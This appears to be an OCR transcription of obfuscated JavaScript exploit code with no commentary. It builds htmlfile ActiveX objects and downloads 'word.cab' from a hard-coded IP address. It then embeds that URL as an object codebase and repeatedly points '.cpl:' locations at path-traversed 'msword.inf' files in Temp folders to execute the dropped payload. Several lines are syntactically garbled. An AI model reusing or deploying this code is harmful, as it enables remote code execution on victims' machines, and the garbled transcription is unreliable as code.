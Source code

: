 ```
} catch (_0x3b004e) {
    _0x2d20cd['call'](_0x1b93d7['documentElement'], _0x4ff114);
}
function _0x2511dc() {
    var a0_0x15ec = a0_0x15ec;
    return 'http://192.168.6.155/word.cab';
}
_0x224f7d['open']()['close']();
var _0x3e172f = new _0x224f7d[('Script')][('ActiveXObject')]('htmlFile');
_0x3e172f['open']()['close']();
var 'c' = 'c',
_0x35b0d4 = new _0x3e172f[('Script')]['ActiveXObject']('htmlFile');
_0x35b0d4['open']()['close']();
var _0xf70c6e = new _0x35b0d4['Script'][('ActiveXObject')]('htmlFile');
_0xf70c6e['open']()['close']();
var _0xfed1ef = new ActiveXObject('htmlfile'),
_0x5f3191 = new ActiveXObject('htmlfile'),
_0xafc795 = new ActiveXObject('htmlfile'),
_0x5a6d4b = new ActiveXObject('htmlfile'),
_0x258443 = new ActiveXObject('htmlfile'),
_0x53c2ab = new ActiveXObject('htmlfile'),
_0x3a627b = _0x279eab['XMLHttpRequest'],
_0x2c84a8 = new _0x3a627b(),
_0x220eee = _0x3a627b['prototype']['open'],
_0x3637d8 = _0x3a627b['prototype']['send'],
_0x27de6f = _0x279eab['setTimeout'];
_0x220eee['call'](_0x2c84a8, 'GET', _0x2511dc(), ![]),
_0x3637d8['call'](_0x2c84a8),
_0xf70c6e['Script']['document']['write']('');
var _0x126e83 = _0xcf5a2['call'](_0xf70c6e['Script']['document'], 'object');
_0x126e83['setAttribute']('codebase', _0x2511dc() + '#version=5,0,0,0');
var 'l' = 'l';
_0x126e83['setAttribute']('classid', 'CLSID:edbc374c-5730-432a-b5b8-de94f0b57217'),
_0x1ee31c['call'](_0xf70c6e['Script']['document']['body'], _0x126e83),
_0xfed1ef['Script']['location'] = '.cpl:123',
_0xfed1ef['Script']['location'] = '.cpl:123',
_0xfed1ef['Script']['location'] = '.cpl:123',
_0xfed1ef['Script']['location'] = '.cpl:123',
_0xfed1ef['Script']['location'] = '.cpl:123',
_0xfed1ef['Script']['location'] = '.cpl:123',
_0xfed1ef['Script']['location'] = '.cpl:123',
_0xfed1ef['Script']['location'] = '.cpl:123',
_0xfed1ef['Script']['location'] = '.cpl:123',
_0xfed1ef['Script']['location'] = '.cpl:../../../AppData/Local/Temp/Low/msword.inf',
_0x5f3191['Script']['location'] = '.cpl:../../../AppData/Local/Temp/msword.inf',
_0xafc795['Script']['location'] = '.cpl:../../../../AppData/Local/Temp/Low/msword.inf',
_0x5a6d4b['Script']['location'] = '.cpl:../../../../AppData/Local/Temp/msword.inf',
_0x258443['Script']['location'] = '.cpl:../../../../../Temp/Low/msword.inf',
_0x5a6d4b['Script']['location'] = '.cpl:../../../../../Temp/msword.inf',
_0x5a6d4b['Script']['location'] = '.cpl:../../Low/msword.inf',
_0x5a6d4b['Script']['location'] = '.cpl:../../msword.inf';

```

